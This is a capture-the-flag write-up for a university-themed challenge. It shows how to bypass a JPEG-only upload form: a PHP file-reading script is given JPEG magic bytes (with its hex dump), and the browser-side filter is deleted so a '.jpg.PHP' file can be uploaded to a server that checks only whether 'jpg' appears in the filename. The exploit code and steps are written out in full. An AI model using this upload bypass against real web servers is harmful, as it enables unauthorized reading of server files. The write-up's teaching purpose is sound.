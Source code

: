# The Evil Assignment on Canvas

Oh no, when you're "chilling" with this CTF, your evil professor has given you an impossible assignment on Canvas, which dues tomorrow! The only way to pass his course is to pwn him! The show will never end! Let's go VinUni hackeerrrsss!

Challenge URL: http://ctflag.vhc.asia:13373/

## Techniques

PHP, JavaScript, file signature, client-side validation

## Solution

You are given a free hint that says.

```
You may need to search about "File Upload Vulnerability".

So basically, the idea behind the exploitation of this challenge is to construct a .php file that reads the Final Exam Answers. Then, we upload that php file on the website and try to execute it.
```

Look at the website. We are given another hint that the flag file is at `/var/www/FinalExamAnswers.txt`.

![canvas 1](canvas-1.png)

Just as hinted, we are asked to upload a PHP file to extract the flag at that directory. But the website forces us to upload JPEG images only instead.

Now let's play around with this website for a little bit. Upload [this](yuu.jpg) and see it does nothing! What a shame that this website puts such a small size limit.

Ok, how about [this one](kek.jpg)? 30KB should be small enough.

![canvas 2](canvas-2.png)

And yes, successfully submitted. It shows my GitHub avatar!

The requirements should be clear now:
- Upload a small JPEG file of less than 30KB (I suppose).
- Somehow inject the PHP code to show the flag.

Ok, so how do computers recognize a file format? Besides file name extensions, there is another thing called [magic number](https://en.wikipedia.org/wiki/File_format#Magic_number) in Unix systems, which is the first identifier bytes in a file. For JPEG images, their magic number is `FF D8 FF`, which is the first 3 bytes in hexadecimal.

Now for the PHP code. We are given the directory of the flag file, and then we need to build a PHP page to display it. Below is my code.

```php
<?php $fn = "/var/www/FinalExamAnswers.txt";
$myfile = fopen($fn, "r");
$content = fread($myfile,filesize($fn));
$lines = explode("\n", $content);
fclose($myfile);
?>
<html>
    <head>
    <title>Flag 700 ez</title>
    </head>
    <body>
        <h1><?php print_r($lines) ?></h1>
    </body>
</html>
```

Save it into a PHP file. Then inject the magic bytes `FF D8 FF` by using a Hex editor program. Play around with it, and the [hex dump](hexdump.txt) of the resulting file should be like this. Notice the first 3 bytes `ff d8 ff` in the dump.

```
00000000  ff d8 ff 3c 3f 70 68 70  20 24 66 6e 20 3d 20 22  |...<?php $fn = "|
00000010  2f 76 61 72 2f 77 77 77  2f 46 69 6e 61 6c 45 78  |/var/www/FinalEx|
00000020  61 6d 41 6e 73 77 65 72  73 2e 74 78 74 22 3b 0d  |amAnswers.txt";.|
00000030  0a 24 6d 79 66 69 6c 65  20 3d 20 66 6f 70 65 6e  |.$myfile = fopen|
00000040  28 24 66 6e 2c 20 22 72  22 29 3b 0d 0a 24 63 6f  |($fn, "r");..$co|
00000050  6e 74 65 6e 74 20 3d 20  66 72 65 61 64 28 24 6d  |ntent = fread($m|
00000060  79 66 69 6c 65 2c 66 69  6c 65 73 69 7a 65 28 24  |yfile,filesize($|
00000070  66 6e 29 29 3b 0d 0a 24  6c 69 6e 65 73 20 3d 20  |fn));..$lines = |
00000080  65 78 70 6c 6f 64 65 28  22 5c 6e 22 2c 20 24 63  |explode("\n", $c|
00000090  6f 6e 74 65 6e 74 29 3b  0d 0a 66 63 6c 6f 73 65  |ontent);..fclose|
000000a0  28 24 6d 79 66 69 6c 65  29 3b 0d 0a 3f 3e 0d 0a  |($myfile);..?>..|
000000b0  3c 68 74 6d 6c 3e 0d 0a  20 20 20 20 3c 68 65 61  |<html>..    <hea|
000000c0  64 3e 0d 0a 20 20 20 20  3c 74 69 74 6c 65 3e 46  |d>..    <title>F|
000000d0  6c 61 67 20 37 30 30 20  65 7a 3c 2f 74 69 74 6c  |lag 700 ez</titl|
000000e0  65 3e 0d 0a 20 20 20 20  3c 2f 68 65 61 64 3e 0d  |e>..    </head>.|
000000f0  0a 20 20 20 20 3c 62 6f  64 79 3e 0d 0a 20 20 20  |.    <body>..   |
00000100  20 20 20 20 20 3c 68 31  3e 3c 3f 70 68 70 20 70  |     <h1><?php p|
00000110  72 69 6e 74 5f 72 28 24  6c 69 6e 65 73 29 20 3f  |rint_r($lines) ?|
00000120  3e 3c 2f 68 31 3e 0d 0a  20 20 20 20 3c 2f 62 6f  |></h1>..    </bo|
00000130  64 79 3e 0d 0a 3c 2f 68  74 6d 6c 3e              |dy>..</html>|
0000013c
```

Change the file extension to `.jpg` in case you forget it, and upload again to the website.

![canvas 3](canvas-3.png)

But still, it doesn't seem to work. How about changing the file name to `something.jpg.PHP`?

Of course the website won't allow uploading any files except JPEG ones. But we can work around this problem by using F12 Tools!

Find the source code of the website, and we can see there is a file `filtr.js` that does the client-side validation of the uploading file.

```js
window.onload = function(){
	var upload = document.getElementById("fileSelect");
	var errorMsg = document.getElementById("errorMsg");
	var uploadMsg = document.getElementById("uploadtext");
	upload.value="";
	upload.addEventListener("change",function(event){
		var file = this.files[0];
		if (file.type != "image/jpeg"){
			upload.value = "";
			uploadMsg.style = "display : none;";
			errorMsg.style="display : block;";
			error();
		} else{
			uploadMsg.innerHTML = "Chosen File: " + upload.value.split(/(\\|\/)/g).pop();
			uploadMsg.style = "display : block;";
			errorMsg.style="display : none;";
			success();
		}
	});
};
```

Basically it tells that if a file extension is not of `image/jpeg` type then the form does not repond. Just delete that part of code and the website will allow us to upload PHP files.

It works now!

![canvas 4](canvas-4.png)

We have actually uploaded a PHP file instead of a JPEG one. The problem is that the website has done "magic number" verification on the server-side, but it only checks whether `jpg` or `jpeg` is IN the filename, but not the actual file extension, and that's why we can find the flag in this way. 

If the server also checks for file extension, the challenge will become much more difficult and we may need to find any misconfiguration of the server to run PHP code in JPG file.

You can search for this keyword: `inject PHP into jpg`. I have uploaded my file [here](payload.png.php). You can refer to it.

## The Flag
```
VHC2022{l3v3L_4_c0d3_0f_c0ndUcT_v10l4t10n_f0R_pWn1nG_uR_pR0f}
```

Anyway, don't try to hack into [VinUni Canvas](https://vinuni.instructure.com/) for real unless you want a Level 4 Code of Conduct violation.
